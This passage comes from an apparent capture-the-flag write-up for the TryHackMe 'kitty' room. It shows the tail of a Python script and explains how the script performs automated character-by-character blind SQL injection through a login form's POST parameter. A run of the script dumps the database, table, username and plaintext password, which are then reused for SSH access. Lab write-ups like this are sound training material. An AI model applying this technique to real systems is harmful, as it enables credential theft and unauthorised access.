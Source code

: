 ```bash
                print(f"Username\t: {username}")
            elif state == 4:
                print(f"Password\t: {password}")
            state = state + 1

        if char != "\n":
            if state == 1:
                print(f"Database name\t: {database_name+char}", end='\r')
            elif state == 2:
                print(f"Table name\t: {table_name+char}", end='\r')
            elif state == 3:
                print(f"Username\t: {username+char}", end='\r')
            elif state == 4:
                print(f"Password\t: {password+char}", end='\r')
```

This script performs **automated blind SQL injection** to extract:

1. **Database name**
2. **Table name**
3. **Username**
4. **Password**

It does this by:

- Sending crafted `username` inputs in a POST request.
- Checking for a success keyword (`"Hello there!"`) in the response.
- Guessing each character one-by-one using SQL `LIKE` conditions.
- Moving to the next stage (`state`) after completing each value.

It loops until it builds all values character-by-character from scratch — without needing any prior knowledge of the database structure.

Results are crazy, when we run this script:

```bash
┌──(ghost㉿kali)-[~/tryhackme/kitty]
└─$ python3 all_enum.py  

Database name   : mywebsite

Table name      : siteusers

Username        : kitty

Password        : L0ng_Liv3_KittY
```

Now, we can try these password to log in to ssh.

---

### USER FLAG

As we can log into user kitty’s account via ssh, next we can try to grab user flag.
